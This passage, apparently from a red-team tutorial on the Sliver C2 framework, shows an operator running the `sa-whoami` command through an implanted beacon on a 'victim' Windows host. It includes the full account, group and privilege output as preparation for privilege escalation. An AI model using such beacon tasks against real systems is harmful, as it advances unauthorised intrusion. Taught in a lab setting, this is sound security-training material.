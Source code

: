 We can now even go a step further and escalate privileges on the victim.

## Privilege Escalation
Use the beacon and run `sa-whoami`. This will run a `whoami /all` in a more safe way.

```console
[server] sliver (ESSENTIAL_THEATER) > sa-whoami 

[*] Tasked beacon ESSENTIAL_THEATER (f91cc40c)

[+] ESSENTIAL_THEATER completed task f91cc40c

[*] Successfully executed sa-whoami (coff-loader)
[*] Got output:

UserName        SID
====================== ====================================
DESKTOP-3GMRMMT\John    S-1-5-21-2723216276-469661999-718104327-1001


GROUP INFORMATION                                 Type                     SID                                          Attributes               
================================================= ===================== ============================================= ==================================================
DESKTOP-3GMRMMT\None                              Group                    S-1-5-21-2723216276-469661999-718104327-513   Mandatory group, Enabled by default, Enabled group, 
Everyone                                          Well-known group         S-1-1-0                                       Mandatory group, Enabled by default, Enabled group, 
NT AUTHORITY\Local account and member of Administrators groupWell-known group         S-1-5-114                                     
DESKTOP-3GMRMMT\docker-users                      Alias                    S-1-5-21-2723216276-469661999-718104327-1002  Mandatory group, Enabled by default, Enabled group, 
BUILTIN\Administrators                            Alias                    S-1-5-32-544                                  
BUILTIN\Performance Log Users                     Alias                    S-1-5-32-559                                  Mandatory group, Enabled by default, Enabled group, 
BUILTIN\Users                                     Alias                    S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group, 
NT AUTHORITY\INTERACTIVE                          Well-known group         S-1-5-4                                       Mandatory group, Enabled by default, Enabled group, 
CONSOLE LOGON                                     Well-known group         S-1-2-1                                       Mandatory group, Enabled by default, Enabled group, 
NT AUTHORITY\Authenticated Users                  Well-known group         S-1-5-11                                      Mandatory group, Enabled by default, Enabled group, 
NT AUTHORITY\This Organization                    Well-known group         S-1-5-15                                      Mandatory group, Enabled by default, Enabled group, 
NT AUTHORITY\Local account                        Well-known group         S-1-5-113                                     Mandatory group, Enabled by default, Enabled group, 
LOCAL                                             Well-known group         S-1-2-0                                       Mandatory group, Enabled by default, Enabled group, 
NT AUTHORITY\NTLM Authentication                  Well-known group         S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group, 
Mandatory Label\Medium Mandatory Level            Label                    S-1-16-8192                                   Mandatory group, Enabled by default, Enabled group, 


Privilege Name                Description                                       State                         
============================= ================================================= ===========================
SeShutdownPrivilege           Shut down the system                              Disabled                      
SeChangeNotifyPrivilege       Bypass traverse checking                          Enabled                       
```